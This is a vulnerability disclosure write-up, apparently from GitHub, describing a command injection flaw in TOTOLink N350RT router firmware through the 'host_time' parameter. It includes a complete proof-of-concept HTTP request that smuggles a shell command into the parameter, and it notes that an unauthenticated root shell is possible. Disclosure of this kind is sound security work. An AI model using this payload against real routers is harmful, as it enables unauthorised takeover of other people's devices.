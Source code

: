 # TOTOLink N350RT V9.3.5u.6139_B20201216 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/206/ids/36.html

### Product Information

TOTOLink N350RT V9.3.5u.6139_B20201216 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK N350RT (V9.3.5u.6139_B20201216) was found to contain a command insertion vulnerability in NTPSyncWithHost.This vulnerability allows an attacker to execute arbitrary commands through the "host_time" parameter.

![image-20220719211135564](img/image-20220719211135564.png)

`Var` passes directly into the dosystem function.

![image-20220719205544791](img/image-20220719205544791.png)

The dosystem function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 52
Origin: http://192.168.0.1
DNT: 1
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"host_time":"2022-07-21 20:12:43';ps;'","topicurl":"NTPSyncWithHost"}
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
